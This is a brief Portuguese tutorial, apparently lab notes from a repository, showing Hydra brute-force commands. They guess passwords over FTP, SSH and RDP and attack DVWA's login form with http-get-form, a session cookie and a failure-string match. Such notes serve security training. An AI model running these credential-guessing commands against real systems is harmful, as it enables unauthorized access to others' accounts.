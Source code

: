 # HYDRA

Ferramenta de brute force online.

Uso do hydra com usuário:

```bash
hydra -v -l user -P wordlist.txt 192.168.0.100 ftp
```

```bash
hydra -v -l root -P wordlist.txt 192.168.0.100 ssh
```

```bash
hydra -v -l administrator -P wordlist.txt 192.168.0.100 rdp
```

**No RDP pode não funcionar como esperado.**

Uso do hydra com wordlist de usuário:

```bash
hydra -v -L users.txt -P wordlist.txt 192.168.0.100 21
```

## Brute force HTTP

URL: http://192.168.0.100/dvwa/vulnerabilities/brute/?username=teste&password=teste&Login=Login#

```bash
hydra -v -l admin -P pass.txt 192.168.0.100 http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: PHPSESSID=4h91dkp7pcp8184nil8rt9ok13; security=low"
```

**^USER^** ==> Será onde o usuário será inserido.  
**^PASS^** ==> Será a senha.  
**Username and/or password incorrect.** ==> É o parâmetro de senha incorreta que muda conforme aplicação.  
**H** ==> Configuração do Header.
